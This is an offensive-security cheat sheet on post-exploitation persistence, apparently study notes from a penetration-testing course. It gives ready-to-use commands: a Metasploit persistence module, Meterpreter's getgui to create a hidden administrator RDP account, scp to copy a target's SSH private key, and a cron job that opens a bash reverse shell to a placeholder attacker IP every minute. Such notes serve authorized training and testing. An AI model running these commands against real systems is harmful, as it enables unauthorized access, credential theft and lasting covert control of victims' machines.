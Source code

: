# Persistence

* [Windows](#windows)
* [Linux](#linux)
* [References](#references)

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Windows

### msfconsole

```
use exploit/windows/local/persistence_service
```

### RDP

#### Meterpreter

* Create new user on target machine:
   * Enables RDP
   * Sets Terminal Services to auto
   * Opens port in local firewall
   * Sets user account for logon
   * Hides user from login screen
   * Adds user to Remote Desktop Users
   * Adds user to Administrators group
   * note the cleanup command at the end of the output
```
run getgui -e -u [USERNAME] -p [PASSWORD]
```

Log in via xfreerdp:
```
xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[TARGET-IP]
```

***********************************************************************

## Linux

### Persistence via SSH Keys

* private key is "id_rsa"
* public key is "id_rsa.pup"
* stored in .ssh
```
cat authorized_keys
```

Transfer private key from target machine to attack machine:
```
scp [USERNAME]@[TARGET-IP]:[PATH-TO-id_rsa] .
```

Give id_rsa correct permissions;
```
chmod 400 id_rsa
```

Login with private key via SSH:
```
ssh -i id_rsa [USERNAME]@[TARGET-IP]
```

### Persistence via Cron Jobs

Display cron jobs:
```
cat /etc/cron*
```

Make a persistent cron file:
```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[ATTACK-IP]/[LPORT] 0>&1'" > [OUTFILE]
```

Add it to crontab:
```
crontab -i [OUTFILE]
```

Show crontab:
```
crontab -l
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2